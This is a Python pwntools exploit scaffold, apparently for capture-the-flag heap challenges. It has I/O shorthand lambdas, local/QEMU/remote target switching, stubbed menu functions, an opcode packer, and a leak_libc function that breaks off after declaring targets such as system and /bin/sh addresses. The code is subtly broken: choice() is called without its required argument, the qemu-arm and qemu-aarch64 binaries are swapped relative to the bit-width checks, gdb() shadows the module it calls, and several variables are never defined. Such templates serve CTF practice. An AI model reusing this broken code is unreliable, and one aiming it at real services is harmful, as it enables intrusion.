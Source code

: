 ```python
og = [0x4342,0x3342]

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

if(local==1):
    if(arm==1):
        if(core==64):
            p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi",binary])
        if(core==32):
            p = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu/", binary])
    else:
        p = process(binary)
else:
    p = remote(ip,port)

elf = ELF(binary)
libc = ELF(libcelf)

def choice(cho):
    sla('',cho)

def gdb():
    gdb.attach(p)

def add(idx,size,content):
    choice()
    sla('',idx)
    sla('',size)
    sla('',content)

def delete(idx):
    choice()
    sla('',idx)

def show(idx):
    choice()
    sla('',idx)

def edit(idx,size,content):
    choice()
    sla('',idx)
    sla('',size)
    sla('',content) 

def opcode(num,reg,op2,op1):
    code = num<<24
    code += reg<<16
    code += op2<<8
    code += op1
    code = str(code)
    sl(code)

def leak_libc(addr):
    global libc_base,mh,fh,system,binsh_addr,_IO_2_1_stdout_,realloc
```